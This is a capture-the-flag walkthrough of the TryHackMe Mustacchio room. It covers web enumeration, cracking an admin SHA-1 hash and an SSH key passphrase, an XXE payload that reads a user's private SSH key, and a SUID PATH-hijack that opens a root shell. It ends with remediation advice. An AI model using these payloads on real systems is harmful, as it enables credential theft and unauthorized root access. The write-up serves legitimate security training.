

# Mustacchio Write-Up

## Mustacchio

> **Scope:** This walkthrough covers the authorized [TryHackMe Mustacchio room](https://tryhackme.com/room/mustacchio). Only test systems you own or are authorized to assess.

### Overview

The target exposed web applications on ports 80 and 8765. A database backup disclosed an admin hash. The authenticated application accepted XML and allowed local file disclosure through XXE. That exposed an encrypted SSH key for `barry`. A root-owned SUID binary then trusted an attacker-controlled `PATH`.



### Reconnaissance

RustScan identified three TCP services:

```
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http
```

Directory enumeration exposed distinct application content on each HTTP service:

```bash
gobuster dir -u http://TARGET_IP \
  --wordlist /usr/share/wordlists/dirb/common.txt

gobuster dir -u http://TARGET_IP:8765/ \
  --wordlist /usr/share/wordlists/dirb/common.txt
```

Port 80 returned `/custom`, `/fonts`, and `/images`. Port 8765 returned `/assets`, `/auth`, and `index.php`.

### Recover the admin password

A downloaded `users.bak` file was a SQLite database:

```bash
file users.bak
mv users.bak users.db
sqlite3 users.db
```

Inspect the database:

```sql
.tables
.schema
SELECT * FROM users;
```

The `users` table contained an `admin` account with a SHA-1 password hash.

```
1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

Crack it with John using the correct raw SHA-1 format:

```bash
john --format=Raw-SHA1 \
  --wordlist=/usr/share/wordlists/rockyou.txt password.txt
```


The recovered password is intentionally omitted. Rotate credentials exposed through backups.


Use the recovered credentials to authenticate to the application on port 8765.

### Exploit XXE to disclose the SSH key

The authenticated application processed XML preview data. It resolved external entities, creating an XXE vulnerability.

Define an external entity that reads Barry's SSH private key, then reference it in a submitted XML field. The vulnerable parser returned the file content in the response.

```xml
<!DOCTYPE preview [
  <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa">
]>
<preview>
  <name>&file;</name>
  <author>test</author>
  <comment>test</comment>
</preview>
```

Save the returned key locally without publishing it:

```bash
chmod 600 id_rsa
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The private key was encrypted. John recovered its passphrase from the wordlist. Connect as Barry:

```bash
ssh -i id_rsa barry@TARGET_IP
```

The user flag was available in Barry's home directory:

```bash
cat ~/user.txt
```

```
62d77a4d5f97d47c5aa38b3b2651b831
```

### Escalate privileges with PATH hijacking

Barry could execute `/home/joe/live_log`. Inspecting the binary strings revealed it launched `tail` without an absolute path:

```bash
strings /home/joe/live_log
```

Relevant output:

```
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
```

The binary was SUID root. Prepend a writable directory to `PATH`, then provide a malicious replacement for `tail`:

```bash
export PATH=/tmp:$PATH
printf '#!/bin/sh\n/bin/bash\n' > /tmp/tail
chmod +x /tmp/tail
/home/joe/live_log
```

The SUID program resolved `/tmp/tail` first and opened a root shell.

```bash
id
cat /root/root.txt
```

```
uid=0(root) gid=0(root) groups=0(root),1003(barry)
3223581420d906c4dd1a5f9b530393a5
```

### Findings and remediation

#### Database backup exposed a password hash

A downloadable SQLite backup contained an admin password hash.

* Keep backups outside web-accessible directories.
* Encrypt backups and restrict access.
* Use slow, salted password hashing such as Argon2id or bcrypt.

#### XML parser allowed external entity expansion

The application read a local SSH private key through XXE.

* Disable DTD processing and external entities.
* Use hardened XML parsers.
* Apply least-privilege filesystem permissions to service accounts.

#### SUID binary trusted PATH

The privileged program executed `tail` by name. An attacker-controlled `PATH` replaced it.

* Remove unnecessary SUID permissions.
* Invoke utilities with absolute paths.
* Set a known-safe `PATH` before executing subprocesses.
* Avoid `system()` in privileged programs.

### Key takeaway

A web-accessible backup enabled account compromise. Unsafe XML parsing exposed a private key. A SUID binary then turned user access into root access.
